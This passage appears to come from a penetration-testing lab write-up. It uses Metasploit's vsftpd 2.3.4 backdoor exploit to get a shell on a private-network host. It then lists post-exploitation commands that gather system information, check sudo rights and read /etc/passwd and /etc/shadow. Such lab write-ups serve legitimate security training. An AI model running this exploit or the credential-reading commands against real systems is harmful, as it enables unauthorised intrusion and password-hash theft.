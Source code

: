![[Pasted image 20250408094730.png]]

Then, we use the **vsftpd_234_backdoor** exploit to gain shell access:

```bash

msf6 auxiliary(scanner/ftp/ftp_version) > use exploit/unix/ftp/vsftpd_234_backdoor

[*] No payload configured, defaulting to cmd/unix/interact

[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.74.162

RHOSTS => 192.168.74.162

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21

RPORT => 21

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

```

![[Pasted image 20250408094935.png]]

2. **Post-Exploitation After FTP Backdoor Access**: 

  After gaining shell access, we can perform various post-exploitation activities:

```bash

# Check user and system information

id

whoami

uname -a

# Escalate privileges if needed

sudo -l

# Gather sensitive information

cat /etc/passwd

cat /etc/shadow

# Look for configuration files

find /etc -name "*.conf" | grep ftp

```
